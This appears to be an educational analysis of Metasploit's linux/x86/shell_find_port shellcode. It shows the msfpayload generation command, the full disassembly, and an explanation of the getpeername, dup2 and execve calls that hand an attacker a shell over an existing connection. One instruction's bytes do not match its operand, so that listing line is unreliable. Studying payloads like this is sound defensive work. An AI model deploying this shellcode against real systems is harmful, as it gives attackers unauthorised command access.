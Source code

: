 ## Metasploit Shellcode Analysis (shell_find_port)

Payload:
linux/x86/shell_find_port

Description:
Spawn a shell on an established connection

Initial disassembly of payload:
Using metasploit to provide the payload for analysis the following will download and disassemble it.
```bash
$ sudo msfpayload -p linux/x86/shell_find_port CPORT=4444 R | ndisasm -u –
```
```nasm	
00000000  31DB              xor ebx,ebx
00000002  53                push ebx
00000003  89E7              mov edi,esp
00000005  6A10              push byte +0x10
00000007  54                push esp
00000008  57                push edi
00000009  53                push ebx
0000000A  89E1              mov ecx,esp
0000000C  B307              mov bl,0x7
0000000E  FF01              inc dword [ecx]
00000010  6A66              push byte +0x66
00000012  58                pop eax
00000013  CD80              int 0x80
00000015  66817F02C6F8      cmp word [edi+0x2],0x5c11
0000001B  75F1              jnz 0xe
0000001D  5B                pop ebx
0000001E  6A02              push byte +0x2
00000020  59                pop ecx
00000021  B03F              mov al,0x3f
00000023  CD80              int 0x80
00000025  49                dec ecx
00000026  79F9              jns 0x21
00000028  50                push eax
00000029  682F2F7368        push dword 0x68732f2f
0000002E  682F62696E        push dword 0x6e69622f
00000033  89E3              mov ebx,esp
00000035  50                push eax
00000036  53                push ebx
00000037  89E1              mov ecx,esp
00000039  99                cdq
0000003A  B00B              mov al,0xb
0000003C  CD80              int 0x80
```
Straightaway in the code above, following from the previous shellcode analyses, the code for an execve system call to execute a /bin/shell can be seen. The code for the dup2 system call can also be observed. Therefore even without a description of the shellcode it can be deduced that it gives the attacker a command shell, bound to stdin, stdout and stderr. As to what the rest of the code does will need further investigation.
```nasm
0000000C  B307              mov bl,0x7
00000010  6A66              push byte +0x66
00000012  58                pop eax
00000013  CD80              int 0x80
```
The above code snippet shows the code is using the getpeername as the call, its number being 0x7, in socketcall(), as found here:
```bash
cat /usr/include/linux/net.h | grep “SYS_”
```
```c
#define SYS_GETPEERNAME 7
```